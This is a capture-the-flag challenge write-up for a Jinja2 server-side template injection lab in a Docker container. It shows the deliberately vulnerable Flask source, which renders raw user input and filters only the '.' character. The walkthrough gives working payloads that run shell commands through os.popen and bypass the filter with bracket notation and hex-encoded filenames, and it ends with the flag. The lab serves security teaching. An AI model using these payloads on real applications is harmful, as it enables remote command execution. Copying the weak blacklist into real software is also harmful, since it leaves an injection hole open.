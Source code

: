 # SSTI-Easy 1

### Difficulty: Easy

### Objective: Bypass blacklisted (".")

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine. Then, install the files `app.py` , `Dockerfile` and `flag-923a4ee403778170c879557425f22848.txt` into the same directory.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>

The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` and get our flag!

![image](https://github.com/user-attachments/assets/579ab938-dac5-4d4a-8aed-3edd8ad37819)

Wait but the website prevented us from using the payload.

![image](https://github.com/user-attachments/assets/01fb2f5e-312b-48a1-b6b6-ffc1ceec65d7)

That's weird, it supposed to work. Let's inspect and analyze the provided source code.

### Source Code (python)
```python

from flask import Flask, request, url_for, render_template_string
import re

app=Flask(__name__)

@app.route('/', methods=('GET','POST'))
def index():
	if request.method=='POST':
		note=request.form['note']
		if sanitize(note):
			return render_template_string(note)
		else:
			return('Please provide some text')
	return '''
		<form method="POST">
			Note:<input type="text" name="note">
			<input type="submit" value="Submit">
		</form>
	'''

def sanitize(x):
	if "." in x:
		return False
	return True

if __name__=='__main__':
	app.run(host='0.0.0.0',port= 5000,debug=True)

```

The website is confirmed to be vulnerable to SSTI (Jinja 2) as the source code contains the function `render_template_string`. However, there is a function that seems to be preventing us from reaching the vulnerable function which is the `sanitize()`. It will return boolean `False` when it detected the strings contains "." which can prevent a regular SSTI payload. We can use another SSTI payload to bypass this sanitization by replacing "." with square brackets.

`{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls')['read']()}}`

![image](https://github.com/user-attachments/assets/531cce88-b3fe-46fb-8f07-1e2c3d123338)

Let's submit this payload and see what happens.

![image](https://github.com/user-attachments/assets/d3cbfda0-eee2-4e8c-bc99-04ec01dc5b8c)

And it works! We can view all the files contain inside the server directory. Let's try to view the flag using command:

`{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat flag-923a4ee403778170c879557425f22848.txt')['read']()}}`

![image](https://github.com/user-attachments/assets/c43644b2-a538-469d-89e3-7b2290c0d623)

Wait but the website still denying us? But why? It seems like the filename `flag-923a4ee403778170c879557425f22848.txt` has a "." in the extension which preventing us from performing the exploit.
Luckily, we can bypass this by simply encode the filename into hex like this:

`\x66\x6c\x61\x67\x2d\x39\x32\x33\x61\x34\x65\x65\x34\x30\x33\x37\x37\x38\x31\x37\x30\x63\x38\x37\x39\x35\x35\x37\x34\x32\x35\x66\x32\x32\x38\x34\x38\x2e\x74\x78\x74`

Let's use it on our previous payload and it should be able to bypass the sanitization.

```{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat \x66\x6c\x61\x67\x2d\x39\x32\x33\x61\x34\x65\x65\x34\x30\x33\x37\x37\x38\x31\x37\x30\x63\x38\x37\x39\x35\x35\x37\x34\x32\x35\x66\x32\x32\x38\x34\x38\x2e\x74\x78\x74')['read']()}}```

At last, we finally able to obtain the flag!

![image](https://github.com/user-attachments/assets/7ccbea20-685f-40e4-b6a5-920619b8c222)

## Flag
>flag{c2ea5e9e00acde74027b2ad8cf5583bd}

</details>
